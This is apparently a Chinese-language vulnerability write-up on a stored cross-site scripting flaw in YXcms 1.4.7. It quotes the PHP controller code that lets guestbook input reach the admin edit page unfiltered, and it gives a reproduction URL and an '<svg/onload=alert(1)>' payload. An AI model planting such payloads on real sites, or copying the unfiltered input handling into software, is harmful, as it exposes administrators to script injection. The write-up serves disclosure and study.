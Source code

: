# YXcms 1.4.7 储存型 xss

> 原文：[http://book.iwonder.run/0day/YXcms/3.html](http://book.iwonder.run/0day/YXcms/3.html)

## 一、漏洞简介

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

### 漏洞分析

前台的文件源码 protected/apps/default/controller/columnController.php

```
public function index()
{
    $ename=in($_GET['col']);
    if(empty($ename)) throw new Exception('栏目名不能为空~', 404);
    $sortinfo=model('sort')->find("ename='{$ename}'",'id,name,ename,path,url,type,deep,method,tplist,keywords,description,extendid');
    $path=$sortinfo['path'].','.$sortinfo['id'];
    $deep=$sortinfo['deep']+1;
    $this->col=$ename;
    switch ($sortinfo['type']) {
        case 1://文章
            $this->newslist($sortinfo,$path,$deep);
            break;
        case 2://图集
            $this->photolist($sortinfo,$path,$deep);
            break;
        case 3://单页
            $this->page($sortinfo,$path,$deep);
            break;
        case 4://应用

            break;
        case 5://自定义

            break;
        case 6://表单
            $this->extend($sortinfo,$path,$deep);
            break;
        default:
            throw new Exception('未知的栏目类型~', 404);
            break;
    }
} 
```

后台的文件源码 protected/apps/admin/controller/extendfieldController.php

```
public function mesedit()
{
    $tableid=intval($_GET['tabid']);
    if(!$this->checkConPower('extend',$tableid)) $this->error('您没有权限管理此独立表内容~');
    $id=intval($_GET['id']);//信息 id
    if(empty($tableid) || empty($id) ) $this->error('参数错误~');
    $tableinfo = model('extend')->select("id='{$tableid}' OR pid='{$tableid}'",'id,tableinfo,name,type,defvalue','pid,norder DESC');
    if(empty($tableinfo)) $this->error('自定义表不存在~');
    if (!$this->isPost()) {
       $info=model('extend')->Extfind($tableinfo[0]['tableinfo'],"id='{$id}'");
       $this->info=$info;
       $this->tableid=$tableid;
       $this->id=$id;
       $this->tableinfo=$tableinfo;
       $this->display();
    }else{
       for($i=1;$i<count($tableinfo);$i++){
        if(is_array($_POST[$tableinfo[$i]['tableinfo']]))
          $data[$tableinfo[$i]['tableinfo']]=implode(',',$_POST[$tableinfo[$i]['tableinfo']]);
        else
          $data[$tableinfo[$i]['tableinfo']]=html_in($_POST[$tableinfo[$i]['tableinfo']]);
       }
       if(model('extend')->Extup($tableinfo[0]['tableinfo'],"id='{$id}'",$data)) $this->success('修改成功~',url('extendfield/meslist',array('id'=>$tableid)));
       else $this->error('信息修改失败~');
     }
} 
```

中间没什么过滤

### 复现

```
http://0-sec.org/index.php?r=default/column/index&col=guestbook 
```

payload：

```
<svg/onload=alert(1)> 
```

![image](img/a068c4a7f5f872239ec914628e51340c.png)

然后登陆后台，查看审核

![image](img/a924f84affdc5729aa1dd09b8f242e7e.png)

点击编辑

![image](img/9f03dd5eb1b624c05777660aa9cb206b.png)

